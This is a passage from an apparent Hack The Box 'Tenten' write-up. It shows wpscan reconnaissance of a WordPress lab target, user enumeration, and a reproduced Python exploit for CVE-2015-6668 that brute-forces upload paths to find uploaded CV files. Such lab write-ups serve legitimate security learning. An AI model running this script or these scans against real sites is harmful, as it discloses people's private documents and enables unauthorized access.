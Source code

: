We can use `wpscan` which is made for scanning WordPress websites to identity the version that's used. We can also see that there is at least one user, `takis`. `Searchsploit` helps us search for exploits and we find [WordPress Core < 4.7.4 - Unauthorized Password Reset](https://www.exploit-db.com/exploits/41963). 41963 needs the attacked user to answer an email so we can't use this exploit.

```bash
luc@kali:~/HTB/Tenten$ wpscan --url http://10.10.10.10 --api-token *******************************************
...
[i] Plugin(s) Identified:

[+] job-manager
 | Location: http://10.10.10.10/wp-content/plugins/job-manager/
 | Latest Version: 0.7.25 (up to date)
 | Last Updated: 2015-08-25T22:44:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Job Manager <= 0.7.25 -  Insecure Direct Object Reference
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/8167
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-6668
 |      - https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/
 |
 | Version: 7.2.5 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.10.10/wp-content/plugins/job-manager/readme.txt
...
```

We can go back to `wpscan`, but by entering an `api-token` we get vulnerability information. `CVE-2015-6668` sounds interesting and browsing to [vagmour.eu](https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/) we get a Python script.

```python
import requests

print """  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  
"""  
website = raw_input('Enter a vulnerable website: ')  
filename = raw_input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2013,2016):  
    for i in range(1,13):
        for extension in {'doc','pdf','docx'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL
```
